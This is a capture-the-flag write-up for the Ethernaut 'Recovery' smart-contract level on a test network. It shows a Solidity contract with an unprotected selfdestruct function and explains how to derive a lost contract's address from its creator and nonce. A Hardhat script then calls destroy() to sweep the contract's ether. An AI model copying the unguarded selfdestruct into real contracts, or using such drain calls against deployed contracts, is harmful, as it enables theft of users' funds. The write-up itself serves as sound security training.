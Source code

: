 ```yaml
---
title: Ethernaut Recovery
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Recovery challenge writeup
---
```


## Recovery

### Challenge

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

### Background

There is not much new stuff going on here. The main difficulty here is to identify the address of the `SimpleToken` contract that was created from the `Recovery` contract. This can be done manually using the block explorer.

#### Edit

After finishing the challenge and reading the success message I relized that I missed one step that could simplify things a bit. The address of a new contract instance can be computed using `keccack256(address, nonce)` where the `address` is the address of the contract that instiates them, and `nonce` is an incremental value. This is the case because the contract is created using the `create` opcode.

There is also another opcode, `create2`, which uses another way to generate the `address` such that it is predictable.

### Attack

Going through the block explorer its easy to find the contract that was created by the `Recovery` contract. This contract must be a `SimpleToken` contract and is the one we are looking for. The next step is simply to call the `destroy` function with the attacker account address to get the contract funds.

* Check the `Recovery` contract transactions [here](https://rinkeby.etherscan.io/address/0x8fa7f6be7f007f88d80cc7d95a30e53343967238#internaltx)
* Find the `SimpleToken` contract [here](https://rinkeby.etherscan.io/address/0xbfb528f5fe26e884621cfd14e3e72fefabd1767c)
* Call the `destroy` function with the attack account address as argument on the `SimpleToken` contract

#### Edit

Instead of doing the first two steps we could simply use `keccack256(address, nonce)` with the `address` of the `Recovery` contract and a `nonce` of `1`.

#### recovery-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    recoveryAddress = "0x8Fa7f6be7f007F88D80cC7D95a30e53343967238";
    // contract = await ethers.getContractAt("Recovery", recoveryAddress);

    // this address was manually found using the block explorer
    // simpleTokenAddress = "0xbFB528f5Fe26E884621cfD14e3E72fEfABd1767c";

    // =================== Edit ===================
    // calculate the contract address
    simpleTokenAddress = ethers.utils.hexDataSlice(
        ethers.utils.keccak256(
            ethers.utils.RLP.encode(
                [recoveryAddress, "0x01"]
            )
        ), 12, 32)
    // ============================================

    contract = await ethers.getContractAt("SimpleToken", simpleTokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address  : " + contract.address)
    console.log("Token Name     : " + await contract.name())

    // // get current balance
    console.log("Current Balance: " + await ethers.provider.getBalance(account.address))

    // trigger selfdestruct and return funds to account.address
    tx = await contract.connect(account).destroy(account.address)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance    : " + await ethers.provider.getBalance(account.address))

}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/recovery-solve.js --network rinkeby
Level address  : 0xbFB528f5Fe26E884621cfD14e3E72fEfABd1767c
Token Name     : InitialToken
Current Balance: 137075271261352909
New Balance    : 137862327261352909
```

### Success Message

Contract addresses are deterministic and are calculated by `keccack256(address, nonce)` where the address is the `address` of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction `nonce`, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
